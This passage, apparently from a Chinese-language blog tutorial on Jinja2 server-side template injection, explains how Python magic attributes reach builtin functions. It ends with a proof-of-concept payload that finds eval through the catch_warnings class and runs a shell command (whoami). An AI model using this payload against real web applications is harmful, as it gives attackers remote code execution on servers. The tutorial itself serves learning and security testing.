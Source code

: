 ```python
<bound method Test.f of <__main__.Test object at 0x0000028DE6E9C610>>
```

如上, 在**\__init__** 没被重载的时候(slot wrapper/method-wrapper), 通过找类的其余方法也是可行的. 

总的来说, 

构造函数每个类都有, 但不一定重载; 

类自己定义的方法, 每个类名称不统一, 但至少是个函数.

## Exp&Fix

通过对python魔法函数的分析, 不难看出挖ssti和挖反序列化的gadget一样需要 ~~运气~~  耐心, 也 ~~不需要~~ 还没遇到特别通杀的payload. 

见过一个开源的工具但局限性也不小. https://github.com/epinna/tplmap

理解原理后exp也很容易写出一两个. 以找catch_warnings下的eval这个builtin_func为例给出一个poc

```python
{% raw %}
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
{% endraw %}
```

![image-20211123173939095](Jinja2.assets/image-20211123173939095.png)  
